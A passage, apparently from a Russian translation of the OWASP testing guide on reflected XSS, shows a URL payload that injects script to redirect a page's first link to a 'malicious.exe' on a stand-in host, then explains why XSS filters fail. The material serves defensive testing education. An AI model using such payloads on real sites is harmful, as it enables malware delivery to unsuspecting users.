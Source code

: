 #### Пример №2

Давайте попробуем другой фрагмент кода (т.е. ссылку):

```text
http://example.com/index.php?user=<script>window.onload = function() {var AllLinks=document.getElementsByTagName("a");AllLinks[0].href = "http://badexample.com/malicious.exe";}</script>
```

Это приводит к следующему поведению:

![XSS Example 2](images/XSS_Example2.png)\
*Рисунок 4.7.1-3: Пример XSS №2*

Пользователь, перейдя по предоставленной тестировщиком ссылке, загрузит файл `malicious.exe` с контролируемого им сайта `http://badexample.com/`.

### Обход фильтров XSS

Атаки с использованием отражённых межсайтовых скриптов предотвращаются, поскольку вредоносный ввод нейтрализовывает web-приложение, блокирует WAF или механизмы, встроенные в современные браузеры. Тестировщик должен проверить наличие уязвимостей, предполагая, что браузеры не предотвратят атаку. Браузеры могут быть устаревшими или в них отключены встроенные функции безопасности. Точно так же нет гарантии, что WAF распознают новые неизвестные атаки.

Таким образом, основная нагрузка по предотвращению XSS лежит на нейтрализации web-приложением недоверенного пользовательского ввода. Разработчикам доступно несколько механизмов нейтрализации, таких как возврат ошибки, удаление, кодирование или замена недопустимых входных данных. Средства, с помощью которых приложение обнаруживает и исправляет неверный ввод, являются одним из основных недостатков при предотвращении XSS. Список запретов может не включать все возможные строки атаки, список разрешений может быть недостаточно строгим, нейтрализация может завершиться неудачей, или какой-либо тип входных данных может оказаться ошибочно доверенным и пройти без нейтрализации. Всё это позволяет злоумышленникам обходить фильтры XSS.

В [Памятке по уклонению от фильтров XSS](https://owasp.org/www-community/xss-filter-evasion-cheatsheet) приведены распространённые тесты на обход фильтров.

#### Пример №3: значение атрибута тега

Поскольку эти фильтры основаны на списке запретов, они не могут блокировать все типы выражений. На самом деле, есть случаи, когда XSS эксплуатируется без тегов `<script>` и даже без таких символов, как `<` и `>`, которые обычно фильтруются.

Например, web-приложение может присваивать атрибуту введённое пользователем значение, как показано в следующем коде:
